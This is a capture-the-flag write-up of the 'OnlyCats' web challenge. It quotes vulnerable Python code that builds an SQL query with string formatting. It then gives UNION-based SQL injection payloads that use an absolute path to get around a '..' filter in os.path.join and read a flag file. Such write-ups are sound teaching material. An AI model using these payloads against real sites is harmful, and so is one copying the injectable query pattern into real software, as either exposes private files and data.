

# OnlyCats
Written by Halogen
## Problem Statement
> APOCALYPSE has recently started a new business venture, a [website](http://chals.cyberthon22f.ctf.sg:40501/) for people to download cute images of cats! While that seems like a relatively normal kind of business, our intel says that it might be more than what it appears to be. So we've got to keep a close eye on it. Currently, their service has only cat pictures.  
>   
> However rumors are going around that they're venturing into dogs very soon. Could u confirm the rumour for me?
## Provided Files
[main.py](./assets/cats.py)
## Solution
From the source code, we extract out the relevant bits
```py
assert os.path.exists("/app/images/dogs/flag.jpg")

@app.post("/download/")
async def download(request: Request):
    form = {**(await request.form())}
    query = {"is_public": "yes"}  
    
    if form.get("species") is None:
        return "Fail"
    
    form["species"] = hashlib.md5(form["species"].encode()).hexdigest()  
    query.update(form)
    
    result = await database.fetch_one(
        query="SELECT filename FROM cats WHERE is_public='{is_public}' AND species='{species}'".format(
            **query
        )
    )
    
    if not result or ".." in result["filename"]:
        return "Fail"
    return FileResponse(os.path.join("/app", "images", "cats", result["filename"]))
```
We see that we are to reach `/app/images/dogs/flag.jpg`, using SQL injection through `is_public` and `species`.

However, there are restrictions...
1. Cannot have ".." in filename
2. md5 of species is used, instead of the name

So firstly, we note that we must perform injection through `is_public` as `species` is locked out.
Next, we note that SQL injection allows us to input any string as the output query.
By letting `is_public`=`maybe_maybenot`, we ensure that there is no possible matches.
Now by `UNION`, we can inject any string we want as the output of the query.

<u>Payload</u>
```
is_public = sus_imposter' UNION SELECT "../dogs/flag.jpg" from cats--
species = whatever
```

We are close, but the above payload is rejected as it contains ".."
This is where [`os.path.join`](https://www.geeksforgeeks.org/python-os-path-join-method/) enters the picture.
As the filename is the last parameter in the function, we can overwrite the entire path. 
This is because `os.path.join` will discard pervious additions when an absolute path is used.
So by inserting an absolute path instead of relative path, we get the flag

<u>Payload</u>
```
is_public = sus_imposter' UNION SELECT "/app/images/dogs/flag.jpg" from cats--
species = whatever
```

<u>Image</u>


Flag: `Cyberthon{why_15_1t_4Lw4y5_d0g`